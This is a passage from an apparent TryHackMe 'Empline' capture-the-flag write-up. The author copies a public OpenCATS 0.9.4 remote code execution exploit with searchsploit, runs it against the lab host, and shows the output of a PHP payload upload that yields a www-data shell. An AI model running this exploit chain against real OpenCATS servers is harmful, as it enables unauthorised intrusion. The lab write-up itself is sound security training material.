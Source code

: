 I choose the **RCE** exploit path and mirror (copy & paste) it into my current workstation:

```
┌──(kali㉿kali)-[~/TryHackMe/empline]
└─$ searchsploit -m php/webapps/50585
  Exploit: OpenCATS 0.9.4 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50585
     Path: /usr/share/exploitdb/exploits/php/webapps/50585.sh
    Codes: N/A
 Verified: False
File Type: HTML document, ASCII text
Copied to: /home/kali/TryHackMe/empline/50585.sh

┌──(kali㉿kali)-[~/TryHackMe/empline]
└─$ ./50585.sh
Usage: ./50585.sh <target URL>
```

As it’s _usage instruction_, I append the target URL as the required argument and get connect to the shell:

```
┌──(kali㉿kali)-[~/TryHackMe/empline]
└─$ ./50585.sh http://job.empline.thm/
 _._     _,-'""`-._
(,-.`._,'(       |\`-/|        RevCAT - OpenCAT RCE
    `-.-' \ )-`( , o o)         Nicholas  Ferreira
          `-    \`_`"'-   https://github.com/Nickguitar-e

[*] Attacking target http://job.empline.thm/
[*] Checking CATS version...
-e [*] Version detected: 0.9.4
[*] Creating temp file with payload...
[*] Checking active jobs...
./50585.sh: 105: [[: not found
-e [+] Jobs found! Using job id 1
[*] Sending payload...
-e [+] Payload bFCfG.php uploaded!
[*] Deleting created temp file...
[*] Checking shell...
-e [+] Got shell! :D
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux empline 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
-e
$ id;whoami;pwd
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/opencats/upload/careerportaladd
-e
```

This shell is quite hard to interact because it restricts most of my commands (such as using `cd` to change the directory) and does not response anything if the syntax is wrong or even the permissions’ problem. Therefore, I implement a new reverse shell and establish it with **python3**:
